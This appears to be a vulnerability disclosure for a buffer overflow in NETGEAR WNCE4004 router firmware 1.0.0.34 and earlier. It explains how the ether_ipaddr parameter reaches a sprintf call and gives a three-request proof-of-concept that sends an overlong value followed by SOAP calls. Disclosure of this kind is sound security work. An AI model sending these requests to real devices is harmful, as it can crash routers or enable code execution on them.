



# Overview

- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.netgear.com/support/download/?model=WNCE4004

# Affected version

WNCE4004 1.0.0.34 and before

# Vulnerability description

A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `lan` page, users can pass the payload to the `lan_ipaddr` configuration item through the `ether_ipaddr` parameter, which will cause a bugger overflow when accessing the page `SetIPInterfaceInfo`. As a result, an attacker could cause a denial of service or potentially remote code execution.

# Vulnerability details

Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 

Netgear uses uhttpd to handle HTTP requests, after accessing the `lan` page, the `ether_ipaddr` parameter is preserved in `lan_ipaddr` in config. When accessing the page `SetIPInterfaceInfo`, this config will be read from config and pass to a `sprintf` which casue the corruption.

 
 
 

# Poc
The packages should be sent in order.

Package 1
```
POST /apply.cgi?c HTTP/1.1
Host: 123
Content-Length: 1000

change_wan_type=0&ether_ipaddr=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&ether_subnet=2&ether_gateway=11111111&submit_flag=lan
```


Package 2
```
POST /apply.cgi HTTP/1.1
Host: example.com
Content-Type: text/xml; charset=utf-8
Content-Length: 500
SOAPAction: "http://example.com/weather:service:DeviceConfig:#ConfigurationStarted"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <getWeather xmlns="http://example.com/weather">
            <cityName>Shanghai</cityName>
        </getWeather>
    </soap:Body>
</soap:Envelope>
```

Package 3
```
POST /apply.cgi HTTP/1.1
Host: example.com
Content-Type: text/xml; charset=utf-8
Content-Length: 500
SOAPAction: "http://example.com/weather:service:WANIPConnection:#SetIPInterfaceInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <getWeather xmlns="http://example.com/weather">
            <NewAddressingType>Static</NewAddressingType>
            <NewExternalIPAddress>123</NewExternalIPAddress>
            <NewSubnetMask>123</NewSubnetMask>
            <NewDefaultGateway>123</NewDefaultGateway>
        </getWeather>
    </soap:Body>
</soap:Envelope>
```